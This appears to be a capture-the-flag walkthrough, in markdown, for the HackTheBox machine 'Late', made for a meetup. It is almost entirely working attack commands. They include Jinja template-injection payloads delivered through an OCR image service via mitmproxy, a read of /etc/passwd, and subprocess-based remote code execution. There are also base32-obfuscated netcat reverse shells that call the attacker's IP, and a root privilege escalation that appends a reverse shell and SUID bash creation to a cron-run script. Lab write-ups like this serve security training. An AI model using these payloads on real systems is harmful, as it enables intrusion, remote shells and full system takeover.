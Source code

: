 

# hackdewereld meetup 18-08-2022
late.htb

# hosts
- late.htb 
- image.late.htb # vuln for ssti


# special setting:

If your convert commands fails in the proxy use this command:

```bash
ls /etc/ImageMagick*/policy.xml | while read line; do cp $line $line.bak; done; sed -i 's/16KP/128KP/g' /etc/ImageMagick*/policy.xml
```

# what to do
- make image

I chose to make a mitm proxy solution for this.

- send to server with ocr

You can use curl while running the mitmproxy like this:
```bash
# pane 1
mitmdump --listen-port 8800 -k -s mitm_p_script.py
# pane 2
curl -x 'http://localhost:8800' -d 'ssti={{7*7}}' http://images.late.htb/haxhaxhax
```

The haxhaxhax is injected via mitmproxy.

- ssti

I've tried using tpl-map on this proxy but that didn't work.

```bash
python2 tplmap.py -u http://images.late.htb/haxhaxhax -d 'ssti=' --proxy 'http://localhost:8800'
```

So let's do it manual.

```bash
curl -x 'http://localhost:8800' -d 'ssti={{7*7}}' http://images.late.htb/haxhaxhax
curl -x 'http://localhost:8800' -d 'ssti={{"7"*7}}' http://images.late.htb/haxhaxhax
# python2 tplmap.py -u http://images.late.htb/haxhaxhax -d 'ssti=*' --proxy 'http://localhost:8800'

# read /etc/passwd on the server:
curl -Ssx 'http://localhost:8800' -d 'ssti={{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}' http://images.late.htb/haxhaxhax

# get all subclasses:
curl -Ssx 'http://localhost:8800' -d 'ssti=abcde {% with a = dict.mro()[-1].__subclasses__() %} {{ a }} {% endwith %} asdfb' http://images.late.htb/haxhaxhax | w3m -dump -T text/html

# get subprocesses number:
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__() }} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html | tr -d '\n' | sed "s|'>, <|\n|g" | sed "s|'>,<class '|\nclass |g" | grep -in popen
# 243: class'subprocess.Popen
# 475:class 'click.utils.KeepOpenFile
```

Rce:

```bash
# pane 1
ip=$(ip a s tun0 | grep inet | head -n1 | awk '{print $2}' | cut -d/ -f1)
port=9000

index=$(curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__() }} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html  | tr -d '\n' | sed "s|'>, <|\n|g" | sed "s|'>,<class '|\nclass |g" | grep -in popen | head -n1 | cut -d : -f 1)
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__()['$(($index-1))']("id",shell=True,stdout=-1).communicate()[0].strip()}} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__()['$(($index-1))'](request.args.input,shell=True,stdout=-1).communicate()[0].strip()}} ' -d 'input=echo '$(echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc '$ip' '$port' >/tmp/f' | base32 -w 0)' | base32 -d | bash' http://images.late.htb/haxhaxhax

# pane 2
nc -lvnp 9000 
# or 
stty raw -echo; (echo 'python3 -c "import pty;pty.spawn(\"/bin/bash\")"';echo pty;echo "stty$(stty -a | awk -F ';' '{print $2 $3}' | head -n 1)";echo export PATH=\$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp;echo export TERM=xterm-256color;echo alias ll='ls -lsaht'; echo clear; echo id;cat) | nc -lvnp 9000 && reset
```




# privesc
- writable sbin folder that is exec by root crontab


```bash
# rev shell:
export _IP_=$(ip a s tun0 | grep inet | head -n1 | awk '{print $2}' | cut -d/ -f1) # you can get it like this

# make sure you export the right _IP_ and _PORT_
export _IP_=dummy
export _PORT_=9000

echo "echo $(echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc '$_IP_ $_PORT_' >/tmp/f' | base32 -w 0) | base32 -d | bash" >> /usr/local/sbin/ssh-alert.sh ; ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1
# suid bin:
echo -e 'cp /bin/bash /tmp/bash\nchown root:root /tmp/bash\nchmod +x /tmp/bash\nchmod u+s /tmp/bash' >> /usr/local/sbin/ssh-alert.sh;echo bla | ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1 ; /tmp/bash -p
```

and execute it by using ssh on the server

```bash
ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1
```

# ocr with multiple panes

```bash
# pane1
mitmdump --listen-port 8800 -k -s mitm_p_script.py
# pane2 (rev will come here)
nc -lvnp 9000
# pane3
index=$(curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__() }} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html  | tr -d '\n' | sed "s|'>, <|\n|g" | sed "s|'>,<class '|\nclass |g" | grep -in popen | head -n1 | cut -d : -f 1)
export _IP_=$(ip a s tun0 | grep inet | head -n1 | awk '{print $2}' | cut -d/ -f1) # you can get it like this
export _PORT_=9000
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__()['$(($index-1))'](request.args.input,shell=True,stdout=-1).communicate()[0].strip()}} ' -d 'input=echo '$(echo 'echo "echo $(echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc '$_IP_ $_PORT_' >/tmp/f" | base32 -w 0) | base32 -d | bash" >> /usr/local/sbin/ssh-alert.sh ; ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1' | base32 -w 0)' | base32 -d | bash' http://images.late.htb/haxhaxhax
```
![](./ocr2.gif)

# OCR one script (unstable)

```bash
kill -9 $(ps aux | grep -i mitm | awk '{print $2}'); pkill nc; ./one-click-root.py
```

![](./ocr.gif)
